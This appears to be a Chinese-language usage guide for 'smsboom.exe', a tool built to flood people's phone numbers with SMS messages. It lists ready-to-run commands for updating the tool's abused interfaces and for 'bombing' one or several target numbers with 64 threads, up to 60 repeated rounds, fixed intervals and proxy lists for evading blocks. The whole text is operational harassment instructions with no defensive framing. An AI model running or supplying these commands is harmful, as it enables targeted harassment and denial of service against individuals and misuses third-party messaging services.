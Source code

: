 # 一、运行

Win+R打开cmd，找到文件路径运行
`smsboom.exe`

使用前必须更新一遍最新接口
`smsboom.exe update`


# 二、传递参数，命令示例:

## 1.启动64个线程，轰炸一个人的手机号（198xxxxx），只轰炸一波。
`smsboom.exe run -t 64 -p 198xxxxxxxxx`

## 2.启动64个线程，轰炸一个人的手机号（19xxxxxxxx），启动循环轰炸，轮番轰炸60次
`smsboom.exe run -t 64 -p 198xxxxxxxxx -f 60`

## 3.启动64个线程，轰炸一个人的手机号（19xxxxxxx），启动循环轰炸，轮番轰炸60次，每次间隔30秒
`smsboom.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30`

## 4.启动64个线程，轰炸一个人的手机号（19xxxxxxxx），启动循环轰炸，轮番轰炸60次，每次间隔30秒，开启代理列表进行轰炸
`smsboom.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e`

## 5.启动64个线程，轰炸多个人的手机号（138xxx，139xxxx），启动循环轰炸，轮番轰炸60次，每次间隔30秒，开启代理列表进行轰炸
`smsboom.exe run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e`
